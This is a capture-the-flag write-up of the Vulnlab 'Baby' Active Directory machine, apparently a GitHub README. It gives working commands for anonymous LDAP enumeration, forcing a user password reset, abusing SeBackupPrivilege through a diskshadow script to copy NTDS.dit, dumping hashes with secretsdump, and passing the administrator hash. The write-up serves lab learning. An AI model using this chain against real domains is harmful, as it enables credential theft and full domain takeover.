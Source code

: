 # Baby

This writeup provides a detailed analysis of the Active Directory exploit on the "Baby" box, a CTF on the Vulnlab platform, aiming to enumerate and exploit vulnerabilities to gain administrative access.

# Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
# Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.

# Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:
```
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  
```
![i](Images/20241213024833.png)

# Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

![i](Images/20241213031525.png)
 
The password was reset to Password123 using:
```
smbpasswd -r 10.10.126.10 -U caroline.robinson 
```
Access was verified, and user privileges were checked using Netexec and the whoami /priv command:
```
nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 
```
![i](Images/2024121306130.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

Create a shadow copy

raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:

```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:

```
download ntds.dit
download system
```

# Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:
```
nxc winrm 10.10.126.10 -u administrator -H hash -X "cat C:\Users\Administrator\Desktop\root.txt"
```
![i](Images/20241213062049.png)
